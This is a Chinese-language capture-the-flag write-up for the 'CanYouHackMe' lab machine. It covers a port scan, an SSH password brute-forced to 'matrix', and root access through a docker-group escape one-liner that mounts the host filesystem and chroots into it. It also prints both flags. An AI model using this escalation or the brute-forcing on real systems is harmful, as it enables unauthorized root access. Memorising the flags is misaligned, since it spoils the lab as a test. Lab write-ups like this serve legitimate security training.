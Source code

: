 # CanYouHackMe

2025.02.28 https://thehackerslabs.com/canyouhackme/

[video]()

## Ip

192.168.5.39

## Scan

```
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

访问 web 跳转到 http://canyouhackme.thl/ ，将域名 canyouhackme.thl 添加到 hosts 中，扫描目录，没发现新的 url，查看页面源代码，发现：

```
Hola juan, te he dejado un correo importate, cundo puedas, leelo
```

得到用户名 juan 和 leelo，让 juan 看邮件。其他什么都没有，只好先爆 juan 的 ssh 登陆密码，等了很长一段时间得到了密码: matrix

登陆后，终端顶部到了 user flag：

```
44053c9499fe4672492a928bfbc4e21f
```

看一下 mail 什么都没有，但是在.bash_history 中发现操作记录：

```
juan@TheHackersLabs-CanYouHackMe:~$ cat .bash_history
rm .bash_history
cd /var/mail
ls
clear
cat para\ juan.txt
cat para\ root.txt
clear
docker run -it -v /:/mnt alpine
docker rm -f flamboyant_mclaren
docker rmi alpine
clear
docker run -it -v /:/mnt alpine
clear
su
exit
```

发现 juan 属于 docker 组，可以直接提权，拿到最终 root flag：

```
docker images

docker run -v /:/mnt --rm -it alpine chroot /mnt sh

# cat root.txt
233f3a6e802743abec7f5dcc311697a0
```

